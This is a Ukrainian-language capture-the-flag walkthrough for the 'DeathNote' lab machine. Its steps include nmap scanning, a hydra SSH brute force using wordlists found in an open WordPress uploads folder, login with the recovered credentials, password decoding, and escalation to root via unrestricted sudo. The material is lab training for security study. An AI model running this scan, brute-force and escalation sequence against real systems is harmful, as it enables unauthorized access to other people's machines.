# DeathNote

Розвідка мережі.

```
ip a
```

```
fping -asgq 192.168.88.0/24
```



Повне сканування портів цілі.

```
sudo nmap -sS 192.168.88.84 -p-
```



Деталізуємо сервіси.

```
sudo nmap -sCV -A -O -p80,22 192.168.88.84 -T5
```



Додаємо домен в hosts.

```
sudo nano /etc/hosts
192.168.88.84 deathnote.vuln
```









Хінт каже шукати notes.txt. Через вихідний код видно шлях до uploads.

```
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/
```





В лістингу директорії: notes.txt і user.txt.

```
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

```
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```





Брутфорс SSH цими списками логінів/паролів.

```
hydra -L user.txt -P notes.txt ssh://192.168.88.84
```



Знайдено l / death4me. Заходимо по SSH.

```
ssh l@192.168.88.84
```



user.txt на диску виявився brainfuck кодом.

```
cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```



Декодуємо повідомлення від Kira.

```
i think u got the shell , but you wont be able to kill me -kira
```



Шукаємо далі по системі, в /opt.

```
cd /opt
cd L
cd kira-case
ls
cat case-file.txt
the FBI agent died on December 27, 2006

1 week after the investigation of the task-force member/head.
aka.....
Soichiro Yagami's family .


hmmmmmmmmm......
and according to watari ,
he died as other died after Kira targeted them .


and we also found something in
fake-notebook-rule folder .
```

```
cd fake-notebook-rule/
ls
cat hint
use cyberchef
cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```



Hex → Base64 в CyberChef дає пароль kira.



Переходимо на kira з цим паролем.

```
su kira
```



Перевіряємо sudo права — дозволено все.

```
sudo -l
sudo su
```



Root отримано.

```
 cd /root
 cat root.txt


      ::::::::       ::::::::       ::::    :::       ::::::::       :::::::::           :::    :::::::::::       ::::::::
    :+:    :+:     :+:    :+:      :+:+:   :+:      :+:    :+:      :+:    :+:        :+: :+:      :+:          :+:    :+:
   +:+            +:+    +:+      :+:+:+  +:+      +:+             +:+    +:+       +:+   +:+     +:+          +:+
  +#+            +#+    +:+      +#+ +:+ +#+      :#:             +#++:++#:       +#++:++#++:    +#+          +#++:++#++
 +#+            +#+    +#+      +#+  +#+#+#      +#+   +#+#      +#+    +#+      +#+     +#+    +#+                 +#+
#+#    #+#     #+#    #+#      #+#   #+#+#      #+#    #+#      #+#    #+#      #+#     #+#    #+#          #+#    #+#
########       ########       ###    ####       ########       ###    ###      ###     ###    ###           ########

##########follow me on twitter###########3
and share this screen shot and tag @KDSAMF
```
